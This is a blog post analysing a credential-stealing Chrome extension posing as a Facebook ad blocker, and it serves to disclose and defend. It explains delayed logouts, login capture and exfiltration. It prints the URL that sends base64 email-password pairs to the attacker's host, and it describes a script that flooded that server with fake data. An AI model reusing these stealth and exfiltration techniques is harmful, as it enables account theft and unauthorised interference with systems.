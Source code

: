 ```yaml
---
layout: post
title: Inside a malicious Chrome Extension
---
```

Today I saw a sketchy Facebook ad, an empty “Blogging” site with stock photos advertised an “Ad blocker for Facebook”.

I checked out the site, and saw that it only had negative reviews, stating that it didn’t work and slowed down their browser. This made me curious.

# The Extension
![Screenshot from the Chrome Web Store][{{site.url}}/public/chrome_extension_title.jpg]

The extension claims to block out Facebook advertisements, and — ironically — advertises itself on Facebook for it. This stragety is quite simple but ingenious, I mean who likes to see ads while browsing Facebook? Also if you are seeing their advertisement, you obviously have no AdBlocker installed for it.

The Chrome Web Store says it has a total of 10k+ users.

# Behind the Scenes

Analyzing Google Chrome Extensions can be quite easy, atleast when the code — like in this example — isnt obfuscated.

You can just download it, get the unique extension ID from chrome://extensions, and then look at the source code found in your Profile Folder\Extensions\IDofYourExtension.

# Basic Structure

The Extension folder has 4 subfolders, a empty .vs folder, suggesting that the developers used Visual Studio, a _metadata folder filled with file hashes, this seems to be a Chrome Extension standard to guarantee that the files haven’t been modified or corrupted, a img folder with the extension logo, and finally the interesting part: A folder named **js**.

This folder has a total of 4 non obfuscated JavaScript files, and — *as all good JavaScript programs* — a jQuery dependency.

We will focus on 2 files: **background.js** and **fb3.js**.

In background.js, a listener is added when the Chrome extension is installed, it waits 25 seconds until it executes the function **s_fun_en()**

{% gist 7e8d06bcadafce622d6d4c92872c3e72 background.js %}

The delay of 25 seconds is interesting, the extension tries to not raise suspicion with a variety of timing strageties.

The function **s_fun_en()** is full of these timing strageties. First it creates a timestamp, and saves it to the variable **n**, which will later be compared to the **app.lt** variable, while ensuring that **app.lt** is not the default value of **0**.

**app.lt** is the timestamp of installation, the function **s_fun_en()** results in nothing until 11 hours have passed since the installation.

{% gist 115b6e212affcb2945c1f7b4a5aee6eb background.js %}

This condition is true when **n** (the current timestamp) is bigger than the installation timestamp + 11 hours.

If 11 hours have passed the extension begins working: It removes 2 cookies from Facebook, resulting in deauthentication, and also marks the time when the user was kicked out of his Facebook account in the **app.ltr** variable.

This helps the extension to remain under the radar, so the user does not raise suspicion when he is logged out directly after installing this extension.

This is when we have a look at the **fb3.js** file, it listens for the moment when the user is logging into Facebook again.

The extension steals the E-Mail and password, and sends it to the message listener in **background.js**

{% gist 044fd5c39cb1f0ad46dd770ac1b8bf19 fb3.js %}

The listener saves the E-Mail and password combination into the **app.ld** variable, and proceeds to store the **c_user** cookie in **app.u**, containing the unique ID of the victims Facebook profile. If it can’t find this cookie, it executes the function again, until it gives up after a minute.

The **fb3.js** has another function, which constantly tries to grab the Facebook access token, if it succeeds it is also stored in **app.t**

{ % gist 6acf2a878e1cb69521cb2a7dfdcc6072 background.js %}

So now the extension has successfully grabbed the E-Mail and Password, the unique ID, and the access token.

The obtained information is quite critical, the E-Mail and Password could be used to access the users Facebook account, or to access other accounts in which the same combination is used.

**The extension has gathered a lot of information, the breaking point however is how it transfers this information back to the owner.**

# The Exfil

Typically, malware has a breaking point: The Exfiltration of it's stolen data, or contacting a C&C Server to receive further instructions.

While code can be obfuscated, and (most of the times) gives no clue to whoever made it, the malware has to contact some server (which can be reported, to law enforcement or easier the hosting provider) to submit it’s findings.

After all the work on the local side is done, **background.js** get’s to work again:

It checks if all the needed data is grabbed, and saves the E-Mail password combination into **d**, base64 encodes it, and then embeds a picture.

{% gist e1810d7eec2b783cef019d445bc76613 background.js %}

The picture is generated from www.en-antibanner.ru/img.php , and the extension adds a lot of parameters to it.

``https://en-antibanner.ru/img.php?d=EMailAndPassword&u=UserID&l=&rnd=RandomNumber``

This picture is 1x1 big, so you really wouldn’t see it.

Loading an image, rather than making a POST request to some sketchy server, is less likely to be detected.

# Measures taken

I reported the extension to the Chrome Web Store and Facebook, I will talk more about in a second. *Note from future Altay: Chrome took it down, and also heavily improved their extension security with [Manifest V3](https://developer.chrome.com/docs/extensions/mv3/intro/)*

I had a quite funny idea: What would happen if you would trash their database by adding tons and tons of random data. They would get the infected users credentials for sure, but they would have to search for it between all the junk data.

I wrote a quick JavaScript which creates a fake E-Mail and Password combination, a fake User ID and then sends it to the server.

You can add fake data by visiting this [JSFiddle]/https://jsfiddle.net/ozj1mhpu/) and hitting the “Run” Button, once, twice or maybe a thousand times. *Future Altay: The website is down, it was fun nonetheless*

**Thank you for reading!** I am not quite sure how to think about this, Chrome Web Store has virtually no security measures, I wasn’t warned that this file could be a virus and the extension seems to be able to do just about everything, while users can install it with one-click. *Future Altay: Manifest V3 is better I guess, although users will probably accept every single permission requested*

[You can look into the extension yourself, I uploaded it to my GitHub](https://github.com/AltayAkkus/FacebookAdBlocker)